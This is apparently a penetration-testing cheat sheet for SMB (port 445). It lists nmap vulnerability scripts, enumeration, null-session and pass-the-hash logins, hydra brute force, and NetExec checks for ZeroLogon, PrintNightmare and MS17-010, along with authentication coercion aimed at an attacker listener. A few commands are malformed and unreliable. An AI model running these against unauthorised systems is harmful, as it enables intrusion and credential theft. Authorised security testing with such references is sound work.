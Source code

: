 # 445 (137,138, 139) - SMB

## Availabe NMAP Options

    $ nmap –-script smb-check-vulns.nse –script-args=unsafe=1 -p445 [TARGET_IP]
    $ nmap –-script smb-enum-shares.nse –script-args=unsafe=1 -p445 [TARGET_IP]
    $ nmap –-script smb-os-discovery.nse –script-args=unsafe=1 -p445 [TARGET_IP]
    $ nmap –-script smb-enum-users.nse –script-args=unsafe=1 -p445 [TARGET_IP]
    $ nmap --script smb-security-mode.nse,smb2-security-mode.nse -p445 [TARGET_IP]
    $ nmap -n -Pn -sV -p 445 --script smb-vuln-ms10-054 -iL [TARGET_IP] -oX -
    $ nmap -n -Pn -sV -p 445 --script smb-vuln-ms10-061 -iL [TARGET_IP] -oX -
    $ nmap -n -Pn -sV -p 445 --script smb-protocols -iL [TARGET_IP] -oX -

    $ nmap [TARGET_IP] --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse 

## SMB Enumeration
Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain

    $ enum4linux –a [TARGET_IP]
    $ nbtscan [TARGET_IP]
    $ py [TARGET_IP] 500 50000 dict.txt 

## SMB samdump attempt 

    $ python3.9 /usr/share/doc/python3-impacket/examples/samrdump.py [TARGET_IP]

## Enumerate SMB Shares

    $ smbclient \\[TARGET_IP]\FTP -c recurse;ls -U administrator%[hash]--pw-nt-hash

## Access to SMB 
Attempt to login with Anonymous Account

    $ smbclient -l \\\\[TARGET_IP]\\
    $ smbclient \\\\[TARGET_IP]\\ADMIN$
    $ smbclient //[TARGET_IP]/ipc$ -U john
    $ smbclient -L //server/share  

### SMB Null Session

    $ smbclient \\10.0.220.54\IPC$ -U % -p 445 -t 30 -c tcon IPC$; showconnect; logoff

## SMB Ransomeware Check

    $ smbclient \\[TARGET_IP]\C$ -c put 6a3d2b157b12.txt; ls 6a3d2b157b12.txt; get 6a3d2b157b12.txt; rm 6a3d2b157b12.txt; ls 6a3d2b157b12.txt -U administrator%[hash] --pw-nt-hash

## Brute Force Options

    $ nmap --script smb-brute -p 445 [TARGET_IP]
    $ hydra -l Administrator -P words.txt [TARGET_IP] smb -t 1

## NetExec

**Reference:** https://www.netexec.wiki/smb-protocol/scan-for-vulnerabilities

### Scan for Vulnerabilities

ZeroLogon

    $ nxc smb [TARGET_IP] -u '' -p '' -M zerologon

noPAC

    $ nxc smb [TARGET_IP] -u 'user' -p 'pass' -M nopac
You need a credential for noPAC vulnerability check.

PrintNightmare

    $ nxc smb [TARGET_IP] -u '' -p '' -M printnightmare
SMBGhost

    $ nxc smb [TARGET_IP] -u '' -p '' -M smbghost
MS17-010 (Not tested outside LAB environment)

    $ nxc smb [TARGET_IP] -u '' -p '' -M ms17-010
Or list each one: -M zerologon -M printnightmare

### Scan for Coerce Vulnerabilities
You can check for coerce vulnerabilities such as PetitPotam, DFSCoerce, PrinterBug, MSEven and ShadowCoerce using the coerce_plus module. You can also use credentials to check for these vulnerabilities. By default the LISTENER ip will be set to localhost, so no traffic will appear on the network.

    $ nxc smb [TARGET_IP] -u '' -p '' -M coerce_plus
If a vulnerability is found, you can set a LISTENER ip to coerce the connection.

    $ nxc smb [TARGET_IP] -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>
To run all exploit methods at once, add the ALWAYS=true option, otherwise it will stop if the underlying RPC connection reports a successful coercion.

    $ nxc smb [TARGET_IP] -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true
You can also check for a specific coerce method by specifying it:

    $ nxc smb [TARGET_IP] -u '' -p '' -M coerce_plus -o METHOD=PetitPotam

